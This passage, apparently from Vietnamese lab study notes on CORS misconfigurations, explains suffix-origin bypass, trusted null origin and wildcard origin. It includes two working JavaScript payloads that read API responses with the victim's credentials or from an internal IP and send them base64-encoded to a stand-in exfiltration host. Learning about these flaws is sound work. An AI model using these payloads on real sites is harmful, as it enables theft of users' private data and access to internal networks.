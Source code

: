 **Khai thác**:

- Kẻ tấn công có thể sử dụng một **origin** như `http://attackervulnerablesite.htb` để vượt qua kiểm tra.
- Payload tương tự như phần trước, nhưng payload được lưu trữ tại một **origin** có hậu tố `"vulnerablesite.htb"`, vượt qua kiểm tra sai sót của API.

#### **3. CORS Misconfiguration 2: Trusted Null Origin**

**Bối cảnh**:

- Một số ứng dụng web tin tưởng **null origin**, dẫn đến lỗ hổng khi mã JavaScript được tải trong một iframe có thuộc tính `sandbox`.
- Khi iframe có thuộc tính `sandbox`, **origin** sẽ là `null`, nhưng trình duyệt vẫn gửi yêu cầu.

**Payload khai thác**:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://api.vulnerablesite.htb/data', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://exfiltrate.htb/log?data=' + btoa(xhr.response);
    };
    xhr.send();
  </script>">
</iframe>
```

- Payload này gửi yêu cầu **cross-origin** từ một iframe có **null origin**, và dữ liệu được gửi đến máy chủ exfiltration.

#### **4. CORS Misconfiguration 3: Wildcard Origin (`*`)**

**Bối cảnh**:

- Nếu API sử dụng **Access-Control-Allow-Origin** là `*`, mọi **origin** đều được phép truy cập.
- Điều này đặc biệt nguy hiểm khi API được truy cập từ mạng nội bộ mà không yêu cầu xác thực.

**Ví dụ khai thác**:

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://172.16.0.2/data', true);
  xhr.onload = () => {
    location = 'http://exfiltrate.htb/log?data=' + btoa(xhr.response);
  };
  xhr.send();
</script>
```

- Payload này gửi yêu cầu đến API nội bộ `http://172.16.0.2/data`. Nếu nạn nhân ở trong cùng mạng nội bộ, dữ liệu sẽ bị exfiltrated đến máy chủ của kẻ tấn công.
